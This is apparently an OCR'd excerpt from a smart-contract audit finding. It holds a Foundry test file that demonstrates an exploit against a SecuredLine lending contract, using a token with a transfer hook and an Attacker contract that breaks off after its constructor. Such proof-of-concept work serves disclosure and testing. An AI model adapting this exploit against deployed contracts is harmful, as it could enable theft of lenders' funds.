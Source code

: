 The  following testcase shows how to exploit it, put it into a new LenderExploit.t.sol file under 'test' directory, it will pass
```
pragma solidity 0.8.9;

import "forge-std/Test.sol";
import { Denominations } from "chainlink/Denominations.sol";
import { Address } from "openzeppelin/utils/Address.sol";

import { Spigot } from "../modules/spigot/Spigot.sol";
import { Escrow } from "../modules/escrow/Escrow.sol";
import { SecuredLine } from "../modules/credit/SecuredLine.sol";
import { ILineOfCredit } from "../interfaces/ILineOfCredit.sol";
import { ISecuredLine } from "../interfaces/ISecuredLine.sol";

import { LineLib } from "../utils/LineLib.sol";
import { MutualConsent } from "../utils/MutualConsent.sol";

import { MockLine } from "../mock/MockLine.sol";
import { SimpleOracle } from "../mock/SimpleOracle.sol";
import { RevenueToken } from "../mock/RevenueToken.sol";


interface IHook {
    function tokensReceived(
        address from,
        address to,
        uint256 amount
    ) external;
}

contract RevenueTokenWithHook is RevenueToken {
    using Address for address;
    mapping(address => bool) public registry;

    function _afterTokenTransfer(
        address from,
        address to,
        uint256 amount
    ) internal virtual override {
        super._afterTokenTransfer(from, to, amount);
        if (registry[to]) {
            IHook(to).tokensReceived(from, to, amount);
        }
    }

    function registerHook(address addr) external {
        registry[addr] = true;
    }
}

contract Attacker is IHook {
    uint256 constant ATTACK_COUNT = 10;
    SecuredLine line;
    address borrower;
    RevenueTokenWithHook token;
    uint256 count;
    bool attackEnable;
    constructor(address line_, address borrower_, address token_) {
        line = SecuredLine(payable(line_));
        borrower = borrower_;
        token = RevenueTokenWithHook(token_);
        token.registerHook(address(this));
    }
```